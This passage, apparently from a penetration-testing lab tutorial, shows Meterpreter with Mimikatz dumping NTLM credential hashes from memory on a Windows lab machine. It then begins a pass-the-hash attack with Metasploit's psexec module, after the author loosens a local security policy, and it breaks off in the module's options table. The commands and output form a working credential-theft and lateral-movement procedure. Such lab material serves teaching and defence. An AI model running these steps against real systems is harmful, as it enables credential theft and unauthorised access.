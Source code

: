It is possible to also get the hashes and credentials straight from memory by using Mimikatz:

``` plain
meterpreter > load mimikatz
Loading extension mimikatz...success.
meterpreter > help mimikatz

Mimikatz Commands
=================

    Command           Description
    -------           -----------
    kerberos          Attempt to retrieve kerberos creds
    livessp           Attempt to retrieve livessp creds
    mimikatz_command  Run a custom command
    msv               Attempt to retrieve msv creds (hashes)
    ssp               Attempt to retrieve ssp creds
    tspkg             Attempt to retrieve tspkg creds
    wdigest           Attempt to retrieve wdigest creds
meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;98494  NTLM       WIN-D7GA2J1M0TU  wingoat           lm{ aad3b435b51404eeaad3b435b51404ee }, ntlm{ 31d6cfe0d16ae931b73c59d7e0c089c0 }
0;996    Negotiate  WORKGROUP        WIN-D7GA2J1M0TU$  n.s. (Credentials KO)
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     n.s. (Credentials KO)
0;49813  NTLM                                          n.s. (Credentials KO)
0;999    NTLM       WORKGROUP        WIN-D7GA2J1M0TU$  n.s. (Credentials KO)
```

### Pass the hash

We can now use the [psexec](https://community.rapid7.com/community/metasploit/blog/2013/03/09/psexec-demystified) module to pass the hash and get access on the box, without any cracking. Note that on my Windows lab machine, I had to go to Local Security Policy -> Local Policies -> Security Options -> Accounts: Limit local account use of blank passwords to console logon only and set it to disabled. 

``` plain
msf exploit(psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   RHOST                 192.168.80.128                                                     yes       The target address
   RPORT                 445                                                                yes       Set the SMB service port
   SERVICE_DESCRIPTION                                                                      no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                     no        The service display name
   SERVICE_NAME                                                                             no        The service name
   SHARE                 ADMIN$                                                             yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
```